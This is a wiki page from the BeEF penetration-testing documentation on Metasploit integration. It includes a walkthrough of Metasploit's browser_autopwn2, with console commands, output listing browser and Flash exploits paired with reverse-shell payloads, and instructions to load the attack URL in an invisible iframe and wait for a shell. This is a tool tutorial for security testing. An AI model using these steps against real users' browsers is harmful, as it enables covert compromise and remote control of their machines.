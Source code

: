 ## Introduction

Metasploit is another ruby based, open source security tool used for penetration testing. It has a collection of exploits, payloads, shellcodes and more in order to exploit vulnerabilities. 

BeEF supports Metasploit integration, and only requires some simple [[configuration|Configuration]] to get up and running. Once running Metasploit modules can be run directly through the BeEF interface.

#### Table of Contents

* [Metasploit Modules](#metasploit-modules)
* [Browser Autopwn](#browser-autopwn)

## Metasploit Modules

After launching Metasploit, you can find its modules in the BeEF command modules tree:
<p align=center>
[[Images/msf2.png|align=center]]
</p>

All regular payload CLI arguments have their own form fields in the module's interface:
<p align=center>
[[Images/msf3.png|align=center]]
</p>

After executing a module, sit back and wait for the exploit to work:
<p align=center>
[[Images/msf6.png|align=center]]
</p>

## Browser Autopwn

While not directly integrated in BeEF, you can easily use the Browser Autopwn function of Metasploit:

```
msf > use auxiliary/server/browser_autopwn2
msf auxiliary(browser_autopwn2) > show options

Module options (auxiliary/server/browser_autopwn2):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXCLUDE_PATTERN                   no        Pattern search to exclude specific modules
   INCLUDE_PATTERN                   no        Pattern search to include specific modules
   Retries          true             no        Allow the browser to retry the module
   SRVHOST          0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT          8080             yes       The local port to listen on.
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                           no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits

```

First, launch `browser_autopwn` or `browser_autopwn2` in Metasploit and get the BrowserAutoPwn URL, for example:

```
msf auxiliary(browser_autopwn2) > run -z 
[*] Auxiliary module execution completed

[*] Searching BES exploits, please wait...
msf auxiliary(browser_autopwn2) >
[*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 6.01071043
[*] Using URL: http://0.0.0.0:8080/5WNrYZjr
[*] Local IP: http://10.1.1.175:8080/5WNrYZjr

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Payload
 -----  ----       ----                                       -------
 1      Excellent  webview_addjavascriptinterface             android/meterpreter/reverse_tcp on 4443
 2      Excellent  samsung_knox_smdm_url                      android/meterpreter/reverse_tcp on 4443
 3      Excellent  firefox_svg_plugin                         firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_webidl_injection                   firefox/shell_reverse_tcp on 4442
 5      Excellent  firefox_tostring_console_injection         firefox/shell_reverse_tcp on 4442
 6      Excellent  firefox_proto_crmfrequest                  firefox/shell_reverse_tcp on 4442
 7      Great      adobe_flash_net_connection_confusion       windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_shader_drawing_fill            windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_shader_job_overflow            windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_hacking_team_uaf               windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_uncompress_zlib_uaf            windows/meterpreter/reverse_tcp on 4444
 12     Great      adobe_flash_opaque_background_uaf          windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_pixel_bender_bof               windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_nellymoser_bof                 windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_copy_pixels_to_byte_array      windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_worker_byte_array_uaf          windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_casi32_int_overflow            windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_domain_memory_uaf              windows/meterpreter/reverse_tcp on 4444
 19     Good       adobe_flash_uncompress_zlib_uninitialized  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                windows/meterpreter/reverse_tcp on 4444

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://10.1.1.175:8080/5WNrYZjr
[*] Server started.
[*] Starting the payload handler...
```

Note the BrowserAutoPwn URL: `http://10.1.1.175:8080/5WNrYZjr`

Then use the `Create Invisible Iframe` command module to load the autopwn webpage in an iFrame:
<p align=center>
[[Images/msf8.png|align=center]]
</p>

Then, just wait for a shell :
<p align=center>
[[Images/msf9.png|align=center]]
</p>

[[Previous|Network-discovery]] | [[Next|Tunneling]] 
